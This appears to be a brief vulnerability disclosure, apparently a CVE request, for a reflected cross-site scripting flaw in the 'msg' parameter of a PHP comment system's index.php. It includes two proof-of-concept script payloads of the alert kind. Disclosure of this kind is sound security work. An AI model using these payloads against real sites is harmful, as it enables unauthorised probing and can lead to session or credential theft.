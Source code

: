 # Comment System v1.0 has reflected cross-site scripting vulnerability

BUG_Author: kanyulu

Website source code address: https://www.sourcecodester.com/php/14713/comment-system-phpmysqli-full-source-code.html

Vulnerability File: /Comment_System/index.php

GET parameter "msg" exists reflected cross-site scripting vulnerability

Payload1: msg=<script>alert('xss')</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/1.png)

Payload2: msg=<script>alert(789)</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/1.png)
